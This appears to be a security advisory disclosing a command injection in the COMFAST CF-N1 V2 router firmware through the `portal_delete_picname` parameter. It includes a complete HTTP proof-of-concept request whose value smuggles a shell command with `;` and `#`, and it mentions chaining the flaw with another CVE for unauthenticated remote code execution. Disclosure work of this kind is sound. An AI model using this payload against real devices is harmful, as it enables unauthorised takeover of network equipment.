 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `wifilith_delete_pic_file`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wifilith_delete_pic_file` API (`/usr/bin/webmgnt`, function `sub_417888`). Attackers can inject arbitrary commands via the `portal_delete_picname` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![Vulnerability Overview Diagram](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_417888` function handling the `wifilith_delete_pic_file` section. Disassembly analysis shows that the user-controlled `portal_delete_picname` parameter is unsanitized and directly incorporated into a system command via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `portal_delete_picname`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The parameter value is inserted into a command string using `sprintf_0` (likely constructing a file deletion command template, e.g., `rm -f /etc/wifilith/%s`).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to bypass intended file deletion operations and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Execution Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file  HTTP/1.1
Host: cflogin.cn
Content-Length: 69
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"portal_delete_picname": "; echo delete >  /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `portal_delete_picname`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "delete", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
